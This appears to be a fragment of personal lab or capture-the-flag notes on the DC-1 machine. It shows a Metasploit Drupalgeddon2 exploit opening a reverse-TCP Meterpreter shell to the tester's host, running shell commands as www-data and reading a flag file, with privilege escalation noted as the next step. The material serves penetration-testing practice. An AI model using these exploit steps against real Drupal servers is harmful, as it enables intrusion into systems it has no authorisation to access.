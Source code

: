 
Tried a couple things frmo MSF, got a hit with Drupalgeddon 2:

\[msf\]\(Jobs:0 Agents:0\) exploit\(unix/webapp/drupal\_drupalgeddon2\) \>\> run

\[\*\] Started reverse TCP handler on 192\.168\.49\.127:4444 
\[\*\] Running automatic check \("set AutoCheck false" to disable\)
\[\!\] The service is running, but could not be validated\.
\[\*\] Sending stage \(39282 bytes\) to 192\.168\.127\.193
\[\*\] Meterpreter session 1 opened \(192\.168\.49\.127:4444 \-\> 192\.168\.127\.193:42177 \) at 2022\-04\-10 11:35:36 \-0700


\(Meterpreter 1\)\(/var/www\) \> id
\[\-\] Unknown command: id
\(Meterpreter 1\)\(/var/www\) \> shell
Process 9005 created\.
Channel 0 created\.
hostname
DC\-1
id
uid=33\(www\-data\) gid=33\(www\-data\) groups=33\(www\-data\)
pwd
/var/www
ls /home \-l
total 8
drwxr\-xr\-x 2 flag4 flag4 4096 Feb 19  2019 flag4
\-rw\-r\-\-r\-\- 1 root  root    33 Apr 11 03:33 local\.txt

cat /home/local\.txt
d8169cc7136823dac3e81f745c6305cd

**Looks like I am running as www\-data\.\. need to get a diff user, flag4 to compromise\.**

\--  PrivEsc
